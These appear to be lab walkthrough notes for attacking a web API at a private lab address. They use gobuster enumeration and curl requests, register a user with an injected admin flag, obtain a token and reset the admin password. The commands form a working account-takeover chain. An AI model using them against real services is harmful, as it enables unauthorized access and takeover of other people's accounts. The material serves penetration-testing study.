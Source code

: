 #webapp 

1. Create a pattern file called "pattern"

```bash
{GOBUSTER}/v1
{GOBUSTER}/v2
```

2. Run gobuster

```bash
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```


3. Check the found interesting path "/users/v1"

```bash
curl -i http://192.168.50.16:5002/users/v1
```

output:

```json
{
  "users": [
    {
      "email": "mail1@mail.com",
      "username": "name1"
    },
    {
      "email": "mail2@mail.com",
      "username": "name2"
    },
    {
      "email": "admin@mail.com",
      "username": "admin"
    }
  ]
}
```

5. gobuster on /admin.

```bash
gobuster dir -u http://192.168.50.16:5002/users/v1/admin/ -w /usr/share/wordlists/dirb/small.txt
```


6. **login** and **register** are common paths so try them, if login fails use **register** to create a new user

```bash
curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
```

7. try to take a token

```bash
curl -d '{"password":"lab","username":"offsec"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```

8. Then change admin password

```bash
curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```
